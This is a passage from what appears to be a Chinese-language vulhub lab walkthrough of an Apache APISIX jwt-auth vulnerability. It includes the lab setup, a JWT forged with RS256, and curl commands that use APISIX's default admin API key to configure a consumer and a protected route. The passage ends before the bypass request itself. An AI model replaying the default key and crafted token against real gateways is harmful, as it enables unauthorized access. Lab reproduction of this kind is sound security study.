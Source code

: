 ```shell
 git clone https://github.com/vulhub/vulhub.git
 cd vulhub/apisix/CVE-2020-13945
 docker-compose up -d
```

访问 http://your-ip:9080 地址即可

## 漏洞复现

首先需要一个 RS256 算法的 JWT 值，这里为了方便直接在 [jwt.io](https://jwt.io/) 中生成，只需要将算法改为 RS256，Payload 改为以下内容即可，注意 Payload 中的 key 值需要和下面创建 consumer 对象时的 key 一致。

```
 {"key": "rs-key"}
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202204301603474.png)

生成的 JWT 值如下：

```
 eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJrZXkiOiJycy1rZXkifQ.mF27BBWlXPb3fTiFufhcL3K9y99b8kioMmp7eMwRhB1kZjK62aJ_R6SB0A_Kmym8a7U2S3zYLue9mkD4FGGmhwmkmUGppjZdtwfxrZc7JvvdpJbihNGxdfn9ywUspr6DX831e29VAy1DnLT6cU8do_9MFklxrRbhTVpDOsOADEhh6Q5zdTKPz3h5pKHSQYO4y5Xd0bmRM7TqRvhfIRchmvroaJBQjP6TrDrN_x2elRpPsuabYmCNH_G7m6x5ouf0bqoOkOmsk3alJ6zNZFDY6-aTS4vDD8SDlSbAXkCh5DN-C10YQ6ZYWUGmcbap7hQhaIVJRlZRtaXMFbmabLwhgg
```

接着创建一个 consumer 对象，并设置 jwt-auth 的值，默认是 HS256 算法，secret  值为 teamssix-secret-key

```shell
 curl http://127.0.0.1:9080/apisix/admin/consumers -H 'X-API-KEY: edd1c9f034335f136f87ad84b625c8f1' -X PUT -d '
 {
 "username": "jack",
 "plugins": {
 "jwt-auth": {
 "key": "rs-key",
 "secret": "teamssix-secret-key"
 }
 }
 }'
```

然后再创建 Route 对象，并开启 jwt-auth 插件

```shell
 curl http://127.0.0.1:9080/apisix/admin/routes/1 -H 'X-API-KEY: edd1c9f034335f136f87ad84b625c8f1' -X PUT -d '
 {
 "methods": ["GET"],
 "uri": "/index.html",
 "plugins": {
 "jwt-auth": {}
 },
 "upstream": {
 "type": "roundrobin",
 "nodes": {
 "0.0.0.0:80": 1
 }
 }
 }'
```
